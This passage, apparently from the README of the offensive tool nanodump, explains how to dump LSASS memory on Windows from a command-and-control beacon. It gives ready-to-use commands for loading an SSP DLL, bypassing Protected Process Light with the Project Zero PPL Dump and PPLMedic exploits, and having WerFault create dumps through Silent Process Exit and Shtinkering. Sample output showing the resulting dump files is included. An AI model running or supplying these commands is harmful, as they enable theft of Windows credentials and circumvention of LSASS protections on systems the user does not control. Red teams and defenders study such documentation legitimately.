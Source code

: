 If you want to load a pre-existing DLL, you can run:
```
beacon> nanodump_ssp -v -w C:\Windows\Temp\lsass.dmp --load-dll C:\Windows\Temp\ssp.dll
```

<h3>PPL Dump exploit</h2>
If LSASS is running as Protected Process Light (PPL), you can try to bypass it using a userland exploit discovered by Project Zero. If it is successful, the dump will be written to disk.  

> Note that this vulnerability has been fixed in the July 2022 update pack (Windows 10 21H2 Build 19044.1826)

To access this feature, use the `nanodump_ppl_dump` command
```
beacon> nanodump_ppl_dump -v -w C:\Windows\Temp\lsass.dmp
```

<h3>PPL Medic exploit</h2>
Nanodump also implements the PPLMedic exploit, which works on systems that have the July 2022 update pack.  
The parameters will be passed to the nanodump DLL via a named pipe. You can hardcode the parameters into the DLL and avoid using the named pipe altogether with the compiler flag PASS_PARAMS_VIA_NAMED_PIPES=0.  

To access this feature, use the `nanodump_ppl_medic` command
```
beacon> nanodump_ppl_medic -v -w C:\Windows\Temp\lsass.dmp
```

<h3>WerFault</h2>
You can force the WerFault.exe process to create a full memory dump of LSASS. Take into consideration that this requires to write to the registry

Because the dump is not made by nanodump, it will always have a valid signature.

<h4>Silent Process Exit</h3>

To leverage the Silent Process Exit technique, use the `--silent-process-exit` parameter and the path there the dump should be created.
```
beacon> nanodump --silent-process-exit C:\Windows\Temp\
```

A dump of the nanodump process will also be created, similar to this:
```
PS C:\> dir 'C:\Windows\Temp\lsass.exe-(PID-648)-4035593\'

Directory: C:\Windows\Temp\lsass.exe-(PID-648)-4035593

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/23/2022   7:40 AM       58830409 lsass.exe-(PID-648).dmp
-a----         6/23/2022   7:40 AM        7862825 nanodump.x64.exe-(PID-3224).dmp
```

<h4>Shtinkering</h3>

You can also use the Shtinkering technique, which requires nanodump to run under SYSTEM.
```
beacon> nanodump --shtinkering
```
